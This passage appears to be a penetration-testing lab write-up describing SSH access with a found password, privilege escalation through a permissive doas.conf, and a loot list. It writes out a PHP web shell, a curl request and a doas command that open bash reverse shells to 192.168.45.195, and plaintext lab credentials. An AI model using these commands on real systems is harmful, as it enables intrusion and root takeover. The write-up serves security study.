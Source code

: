 - Use the SSH password `Rb9kNokjDsjYyH` for `andrew` found in `19` to obtain a SSH session.
# PrivEsc
- looking at `doas.conf`, one can identify that `andrew` can run `doas -u service apache24 onestart` without password and any member in `wheel` group can run any command as `root` without password.![[Pasted image 20240223192503.png]]
- Further enumeration can identify that `www` is within `wheel` group and we have started `apache` server already. Now, use `find /usr/local/www/ -type d  -perm 777`  to find the `/usr/local/www/apache24/data/phpMyAdmin/tmp` directory as writable by `andrew`.![[Pasted image 20240223193313.png]]
- Navigate to the writable directory and run `echo "<?php echo system(\$_REQUEST['cmd']); ?>" > webshell.php`.
- Finally run `proxychains -q curl http://172.16.110.20/phpMyAdmin/tmp/webshell.php?cmd=bash%20-c%20%22%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.195%2F443%200%3E%261%22` to receive a reverse shell as `www`.
- Run as `www` `/usr/local/bin/doas -u root bash -c "/bin/bash -i >& /dev/tcp/192.168.45.195/443 0>&1"` to receive a reverse shell as `root`.
# Loot
- `mountuser`: DRtajyCwcbWvH/9
	- Creds to host `21`